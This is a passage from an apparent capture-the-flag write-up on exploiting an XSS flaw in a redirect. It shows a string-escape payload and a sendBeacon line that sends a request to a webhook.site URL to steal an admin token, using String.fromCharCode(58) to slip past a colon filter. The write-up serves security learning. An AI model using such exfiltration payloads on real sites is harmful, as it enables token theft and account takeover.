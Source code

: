 E.g. `"` becomes:
```js
document.location="...?terms=\""
```

`\"` becomes:
```js
document.location="...?terms=\\""
```

This allows us to escape the string with our payload:
```js
document.location="...?terms=\\";console.log(1);//"
```

This should print `1` to the console before redirecting. Clicking the URL that's what we see!

![saymynamexss.png](images/25-pwnmequals/saymynamexss.png)

## XSS: Exfiltration

Let's use [`navigator`](https://developer.mozilla.org/en-US/docs/Web/API/Navigator) with a [`sendBeacon`](https://developer.mozilla.org/en-US/docs/Web/API/Navigator/sendBeacon) to send a request to our webhook.site URL (which will be used to steal the `X_Admin_Token`) before it redirects!.

```
\";navigator.sendBeacon(`https${String.fromCharCode(58)}//webhook.site/9609b1f4-xxxx-xxxx-xxxx-177da4f9d6e1`);//
```

We use `${String.fromCharCode(58)}` as a representation for `:` as it is filtered in the sanitiser from earlier.

Sure enough we get a `POST` request from the webapp on webhook.site.

![saymyname-webhook.png](images/25-pwnmequals/saymyname-webhook.png)

Now, we need to host a remote server to do this POST to exfiltrate the token.
